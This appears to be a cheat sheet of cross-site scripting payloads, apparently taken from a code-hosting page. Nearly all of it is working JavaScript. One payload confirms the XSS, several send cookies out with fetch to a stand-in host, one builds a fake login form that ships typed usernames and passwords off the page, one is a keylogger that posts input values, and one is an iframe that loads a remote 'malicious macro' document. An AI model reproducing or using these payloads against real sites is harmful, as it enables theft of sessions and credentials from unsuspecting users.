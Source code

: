   **Confirm XSS**
   * In case there's an sandboxed `iframe` that is WAI (working as intended):
   ```Option1
       alert(document.domain)
       alert(window.origin)
   ```
  
  **Cookie/Credential Stealing** 
   ```Option1
       alert(document.cookie)
   ```
   ```Option2
       fetch(`https://example.com?cookie=${
        encodeURIComponent(document.cookie)}`)
   ```
   ```Option3
       f=document.createElement('form')
       u=document.createElement('input')
       u.setAttribute('type','text')
       u.setAttribute('name','username')
       p=document.createElement('input')
       p.setAttribute('type','password')
       p.setAttribute('name','password')
       f.appendChild(u)
       f.appendChild(p)
       document.body.appendChild(f)
       document.addEventListener('click',()=>{
         fetch(`https://example.com/?u=${
            u.value}&p=${p.value}
         `)    
       })
   ```

  **Keylogging**
   ```
       document.addEventListener('change', (e)=>{
         if(!e.target.matches('input,textarea'))
           return
         fetch('https://example.com',{
           method: 'POST',
           headers: {
             'Content-Type':'application/json'
           },
           body:JSON.stringify({
             key: e.target.value
           })
         })
       })
   ```
  
  **Macros - Malicious Macros**
   ```
       f=document.createElement('iframe')
       f.src='https://example.com/important.doc'
       document.body.appendChild(f)
   ```
